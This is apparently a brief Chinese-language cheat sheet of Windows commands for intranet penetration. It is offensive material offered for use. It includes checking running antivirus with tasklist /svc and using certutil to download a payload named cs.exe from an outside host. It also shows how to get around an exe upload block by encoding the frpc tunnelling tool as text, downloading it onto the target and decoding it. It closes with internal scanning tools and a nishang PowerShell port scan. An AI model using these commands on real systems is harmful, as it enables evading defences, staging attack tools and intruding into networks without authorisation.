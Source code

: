 # Intranet Cmd

---

内网渗透常用cmd命令

```
tasklist /svc  # 查看杀软情况
certutil -urlcache -split -f https://xxxxxx cs.exe   # 下载文件输出cs.exe
```


bypass windows不能上传exe

```
本地把目标exe编码输出txt，挂到服务器上
CertUtil -encode frpc.exe frpc.txt
靶机把txt下载下来
certutil.exe -urlcache -split -f frpc.txt的地址
靶机将txt解码成exe
CertUtil -decode frpc.txt frpc.exe
```

内网扫描

```
蚁剑插件ladon
fscan
```
powershell 版内网扫描

```
https://github.com/samratashok/nishang/blob/master/Scan/Invoke-PortScan.ps1
Invoke-PortScan -StartAddress 192.168.0.1 -EndAddress 192.168.10.254 -ResolveHost -ScanPort
```
